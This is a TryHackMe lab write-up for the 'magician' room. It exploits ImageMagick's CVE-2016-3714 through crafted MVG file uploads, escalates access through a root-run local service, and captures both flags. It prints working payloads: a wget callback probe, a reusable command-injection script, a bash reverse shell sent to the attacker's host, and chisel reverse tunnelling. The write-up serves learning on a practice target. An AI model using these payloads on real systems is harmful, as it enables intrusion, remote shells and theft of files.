


| Category          | Details                                                                              |
|-------------------|--------------------------------------------------------------------------------------|
| 📝 **Name**       | [magician](https://tryhackme.com/room/magician)                                      |  
| 🏷 **Type**       | THM Challenge                                                                        |
| 🖥 **OS**         | Linux                                                                                |
| 🎯 **Difficulty** | Easy                                                                                 |
| 📁 **Tags**       | ImageMagick, [CVE-2016-3714](https://nvd.nist.gov/vuln/detail/CVE-2016-3714), chisel |

## Task 1: Find the flags!

### user.txt

#### Scan target with `nmap`
```
┌──(magicrc㉿perun)-[~/attack/THM magician]
└─$ nmap -sS -sC -sV -p- $TARGET
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-21 06:32 +0100
Nmap scan report for 10.82.148.180
Host is up (0.039s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
8080/tcp open  http    Apache Tomcat (language: en)
|_http-title: Site doesn't have a title (application/json).
8081/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: magician
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.88 seconds
```

#### Add `magician` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/THM magician]
└─$ echo "$TARGET magician" | sudo tee -a /etc/hosts
10.82.148.180 magician
```
This is mentioned in challenge description and brief analysis of .js code shows that `magician` is used as host. 

#### Browse main page of web server at port `8081`

After analysis with `Burp` and `feroxbuster` we can see that backend service, running at port `8080` is exposing `/upload` endpoint which accepts any file (not only `.png`) and converts it to `.jpg`. Since challenge is named `magician` our assumption would be that `ImageMagic` is being used.

#### Confirm `ImageMagic` 
```
┌──(magicrc㉿perun)-[~/attack/THM magician]
└─$ curl http://magician:8080/upload -F 'file=@-;filename=text.mvg' <<'EOF'
push graphic-context
viewbox 0 0 300 100
fill black
text 10,50 'MVG WORKS'
pop graphic-context
EOF
{"message":"Uploaded the file successfully: text.mvg"}                                                                                                           
                                                                                         
┌──(magicrc㉿perun)-[~/attack/THM magician]
└─$ curl http://magician:8080/files                                        
[{"name":"text.jpg","url":"http://magician:8080/files/text.jpg"}]                                                                                           
                                                                                                         
┌──(magicrc㉿perun)-[~/attack/THM magician]
└─$ wget -q http://magician:8080/files/text.jpg
```
Downloading generated file confirms `ImageMagic` being used.


Next step will be probing for vulnerabilities.

#### Start HTTP server for vulnerabilities probing
```
┌──(magicrc㉿perun)-[~/attack/THM magician]
└─$ python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

#### Check [CVE-2016-3714](https://nvd.nist.gov/vuln/detail/CVE-2016-3714) vulnerability
```
┌──(magicrc㉿perun)-[~/attack/THM magician]
└─$ cat <<'EOF' | envsubst | curl http://magician:8080/upload -F 'file=@-;filename=probe.mvg'
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`wget -O- $LHOST > log`'
pop graphic-context
EOF
{"message":"Uploaded the file successfully: probe.mvg"} 
```

#### Confirm command injection
```
10.82.148.180 - - [23/Jan/2026 07:00:53] "GET / HTTP/1.1" 200 -
```
We have got connection to our HTTP server which proves that `wget` has been injected and thus target is vulnerable to `CVE-2016-3714`.

#### Prepare exploit for arbitrary command execution
```
{ cat <<'EOF' > cmd.sh
export ARG1="$1"
cat <<'PAYLOAD_EOF' | envsubst '$ARG1' | curl -s http://magician:8080/upload -F 'file=@-;filename=cmd.mvg' -o /dev/null
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`$ARG1`'
pop graphic-context
PAYLOAD_EOF
EOF
} && chmod +x cmd.sh
```

#### Start `nc` to listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/THM magician]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

#### Host reverse shell connection spawner over HTTP
```
┌──(magicrc㉿perun)-[~/attack/THM magician]
└─$ export REVERSE_SHELL=$RANDOM$RANDOM.sh
echo "/bin/bash -c 'bash -i >& /dev/tcp/$LHOST/4444 0>&1'" > $REVERSE_SHELL
```
Python HTTP server is already running.

#### Spawn reverse shell connection
```
./cmd.sh "wget -O- $LHOST/$REVERSE_SHELL > $REVERSE_SHELL" && \
./cmd.sh "chmod 700 $REVERSE_SHELL > /dev/null"  && \
./cmd.sh "./$REVERSE_SHELL > /dev/null"
```

#### Confirm foothold gained
```
connect to [192.168.130.56] from (UNKNOWN) [10.82.148.180] 59446
bash: cannot set terminal process group (1421): Inappropriate ioctl for device
bash: no job control in this shell
magician@magician:/tmp/hsperfdata_magician$ id
id
uid=1000(magician) gid=1000(magician) groups=1000(magician)
```

#### Capture user flag
```
magician@magician:~$ cat /home/magician/user.txt
THM{simsalabim_hex_hex}
```

### root.txt

#### Enumerate target with `pspy`
```
2026/01/23 01:39:43 CMD: UID=0     PID=985    | /usr/bin/python3 /usr/local/bin/gunicorn --bind 127.0.0.1:6666 magiccat:app 
```
`pspy` has detected `gunicorn` HTTP server running as `root` on loopback interface at port 6666. To enumerate application running there will first forward this port using `chisel`. 

#### Run `chisel` on attacker machine
```
┌──(magicrc㉿perun)-[~/attack/THM magician]
└─$ chisel server -p 9090 --reverse
2026/01/23 08:49:36 server: Reverse tunnelling enabled
2026/01/23 08:49:36 server: Fingerprint MvxYKSL2eY3Yv+xdt+4n5s4YzNoAs+hOuj2HWL1s2kc=
2026/01/23 08:49:36 server: Listening on http://0.0.0.0:9090
```

#### Use `chisel` to forward traffic
```
magician@magician:/tmp/hsperfdata_magician$ nohup ./chisel client 192.168.130.56:9090 R:7070:127.0.0.1:6666 &
[1] 1740
magician@magician:/tmp/hsperfdata_magician$ 2026/01/23 03:28:06 client: Connecting to ws://192.168.130.56:9090
2026/01/23 03:28:06 client: Connected (Latency 37.757449ms)
```

#### Browse forwarded application


Brief analysis shows that we could read any file on target by POSTing it's path, however it's content is encoded with random encoder.

#### Capture root flag
```
┌──(magicrc㉿perun)-[~/attack/THM magician]
└─$ curl -s http://127.0.0.1:7070 -d 'filename=/root/root.txt' | sed -n '/<pre/,/<\/pre>/p' | head -n -2 | tail -n +2 | sed 's/^[[:space:]]*//;s/[[:space:]]*$//' | base64 -d
THM{magic_may_make_many_men_mad}
```
Since each call random encoder is being used we just keep calling until base64 will be used.
